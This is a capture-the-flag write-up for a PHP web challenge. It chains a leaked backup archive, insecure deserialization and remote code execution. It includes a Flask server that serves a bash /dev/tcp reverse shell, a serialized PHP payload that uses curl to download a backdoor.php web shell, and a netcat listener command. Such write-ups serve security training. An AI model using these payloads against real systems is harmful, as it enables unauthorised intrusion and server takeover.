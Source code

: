 # Name: Handy Tool

## Vulnerability

LFI + PHP Object Injection / PHP Insecure Object Deserialization + RCE

## Exploit

Note! The exploit involves opening a reverse shell, you may need to read [this article](https://securiumsolutions.com/blog/reverse-shell-using-tcp/) first.
You'll need to change with you own IP and port to connect to it.

First, use the **Guess my last name** option.
As in the Romanian cartoon, the correct answer is **Iscusitul**.
After you input it, the server echoes `backup.zip`.

This is the name of an archive left in the server containing a relevant piece of source code.
Access it at `/backup.zip` and decompress it.

The other tools in the web page really do what they say: uppercase the input, unserialize it or trim the whitespace.
You guessed it, the handy one is **Unserialize**.

After inspecting the source code in the archive, you see what the serialized input object should look like.
It has to be a PHP class with two attributes:
 * `$condition` - boolean with the value `true`
 * `$prop` - a string you can use for remote code execution on the server

Since the actual output of the command is not shown, only the unserialized string, you should try to create a reverse shell.

I started a Flask app on port 1234 where, if accessed, I return a piece of PHP code that spawns a reverse shell to my machine.
You should find out what your IP address is and change it. You can run the server with: `python app.py`:

```python
from flask import Flask, make_response

app = Flask(__name__)

@app.route("/", methods=['GET'])
def index():

    YOUR_IP = '127.0.0.1'

    code = '''<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/%s/1234 0>&1'");''' % YOUR_IP

    return make_response(code)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=1234)
```

I created a PHP class with a command that performs a request to my server and saves the output to `backdoor.php`.
I created the serialized input.
Make sure to change the IP with yours.

```php
<?php
class PHPClass
{
	public $condition = true;
	public $prop = "system('curl http://127.0.0.1:1234 -o backdoor.php');";
}
echo serialize(new PHPClass);
?>
```

You can run this file in command line with: `php payload.php`.
The serialized payload is:

`O:8:"PHPClass":2:{s:9:"condition";b:1;s:4:"prop";s:54:"system('curl http://127.0.0.1:1234 -o backdoor.php');";}`

After you input it on the server, the file `/backdoor.php` is created and you can access it.

In the meantime, the Flask server on your machine won't support this reverse shell.
You need to close it and open a simple netcat connection before you access the backdoor:

`nc -nlvk 1234`
